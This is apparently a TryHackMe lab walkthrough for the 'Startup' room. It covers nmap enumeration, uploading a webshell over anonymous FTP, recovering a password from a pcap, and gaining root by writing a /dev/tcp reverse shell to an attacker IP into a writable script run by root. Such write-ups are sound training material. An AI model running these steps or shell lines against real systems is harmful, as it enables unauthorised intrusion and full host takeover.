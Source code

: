 # 🖥️ TryHackMe Walkthrough: Startup

> A short CTF-style room exploring enumeration, weak credentials, and privilege escalation via environment variables.

---

## 📍 Target Info

- **Hostname**: `startup.thm`
- **IP**: set via `/etc/hosts`
- **Open Ports**:
  - `21/tcp` - FTP (anonymous login allowed)
  - `22/tcp` - SSH
  - `80/tcp` - HTTP

---

## 🧭 Enumeration

### 🔎 Nmap Scan

```bash
nmap -sC -sV -Pn startup.thm -oN nmap_initial.txt
````

Discovered:

* FTP anonymous access
* Basic HTTP service
* SSH requires credentials

### 🌐 Web Enumeration

Found:

* `/files/ftp/` → accessible via web
* Upload via FTP reflects here

---

## 📂 FTP Access

```bash
ftp startup.thm
# Login: anonymous / <blank>
```

* Uploads allowed only in `/files/ftp/`
* Uploaded webshell `cmd.php`

---

## 🐚 Remote Code Execution

```bash
curl http://startup.thm/files/ftp/cmd.php?cmd=id
# uid=33(www-data)
```

* Established reverse shell with Netcat

---

## 🔍 Interesting File: PCAP

* Path: `/incidents/suspicious.pcapng`
* Analyzed using `tshark`:

```bash
tshark -r suspicious.pcapng -z follow,tcp,ascii,7
```

→ Revealed leaked password: `<REDACTED>`

---

## 🔐 SSH Access

```bash
ssh lennie@startup.thm
Password: <REDACTED>
```

* Logged in successfully
* Retrieved user flag: `<REDACTED>`

---

## ⬆️ Privilege Escalation

### Found Script:

```bash
/home/lennie/scripts/planner.sh
```

Contents:

```bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

→ `/etc/print.sh` was writable!

### Exploit Steps:

1. Overwrite `/etc/print.sh`:

   ```bash
   echo "bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1" > /etc/print.sh
   chmod +x /etc/print.sh
   ```

2. Start listener:

   ```bash
   nc -lvnp 4444
   ```

3. Trigger:

   ```bash
   LIST=test /home/lennie/scripts/planner.sh
   ```

✅ Shell as `root`
✅ Retrieved root flag: `<REDACTED>`

---

## 🏁 Flags

* **User Flag**: `<REDACTED>`
* **Root Flag**: `<REDACTED>`

---

## ✅ Key Takeaways

* `.pcap` files may leak credentials—always investigate
* FTP + Web = potential RCE
* Writable files in `root`-invoked scripts are critical escalation vectors

---

## 🏷️ Tags

`tryhackme` `ctf` `startup` `ftp` `webshell` `pcap` `linux` `reverse-shell` `env-privesc`



